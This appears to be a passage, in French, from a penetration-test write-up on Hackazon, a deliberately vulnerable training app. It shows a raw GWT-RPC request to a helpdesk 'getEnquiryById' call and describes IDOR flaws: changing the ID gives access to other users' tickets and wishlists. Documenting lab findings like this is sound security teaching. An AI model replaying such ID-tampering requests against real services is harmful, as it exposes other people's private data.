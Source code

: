 Voici la requête vulnérable:

```
POST /helpdesk/HelpdeskService HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: text/x-gwt-rpc; charset=utf-8
X-Gwt-Permutation: D9E6FA1B6C016BB53C508E629B022D27
X-Gwt-Module-Base: https://hackazon.trackflaw.com/helpdesk/
Content-Length: 170
Origin: https://hackazon.trackflaw.com
Referer: https://hackazon.trackflaw.com/helpdesk/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: red
Te: trailers

7|0|5|https://hackazon.trackflaw.com/helpdesk/|5861BBAC393F609060A1E4008EC18E2B|com.ntobjectives.hackazon.helpdesk.client.HelpdeskService|getEnquiryById|I|1|2|3|4|1|5|21|
```

![iDOR ticket utilisateur](images/screen_helpdesk.png)

- **Whishlist utilisateur :** En modifiant arbitrairement le numéro dans l'URL, il est possible d'accéder à la whishlist d'un autre utilisateur.
